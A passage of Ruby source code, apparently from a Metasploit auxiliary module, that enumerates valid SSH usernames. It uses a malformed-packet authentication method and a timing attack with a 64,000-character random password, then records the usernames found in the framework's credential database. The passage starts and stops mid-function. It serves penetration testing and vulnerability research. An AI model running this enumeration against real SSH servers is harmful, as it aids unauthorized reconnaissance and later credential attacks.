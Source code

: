 ```
    when :malformed_packet
    opts.merge!(auth_methods: ['malformed-packet'])
    when :timing_attack
    opts.merge!(
        auth_methods: ['password', 'keyboard-interactive'],
        password: rand_pass
    )
    end

    opts.merge!(verbose: :debug) if datastore['SSH_DEBUG']

    start_time = Time.new

    begin
    ssh = Timeout.timeout(datastore['SSH_TIMEOUT']) do
        Net::SSH.start(ip, user, opts)
    end
    rescue Rex::ConnectionError
    return :connection_error
    rescue Timeout::Error
    return :success if technique == :timing_attack
    rescue Net::SSH::AuthenticationFailed
    return :fail if technique == :malformed_packet
    rescue Net::SSH::Exception => e
    vprint_error("#{e.class}: #{e.message}")
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
    return :success if ssh
    when :timing_attack
    return :success if (finish_time - start_time > threshold)
    end

    :fail
end

def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
end

def do_report(ip, user, _port)
    service_data = {
    address: ip,
    port: rport,
    service_name: 'ssh',
    protocol: 'tcp',
    workspace_id: myworkspace_id
    }

    credential_data = {
    origin_type: :service,
    module_fullname: fullname,
    username: user
    }.merge(service_data)

    login_data = {
    core: create_credential(credential_data),
    status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

```